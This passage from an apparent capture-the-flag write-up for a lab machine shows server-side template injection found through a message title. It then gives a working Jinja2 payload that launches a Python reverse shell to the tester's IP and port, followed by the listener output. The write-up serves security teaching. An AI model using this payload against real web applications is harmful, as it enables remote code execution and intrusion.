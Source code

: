 There is SSTI after all! I created a new message with the title `{{7*'7'}}`, and the result points to Jinja2 or Twig:

```

	<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>${7*7}</title></item>

			</channel>
			<item><title>49</title></item>
	
			</channel>
			<item><title>7777777</title></item>
	
			</channel>

```

#### Shell

I’ll grab the [RCE payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset) from PayloadsAllTheThings and modify it by putting in my IP / port, and changing the process to `bash -i` to get a shell:

```

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

```

When I put this in as the title and then refresh `/archive`, I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40136.
bash: cannot set terminal process group (912): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)

```
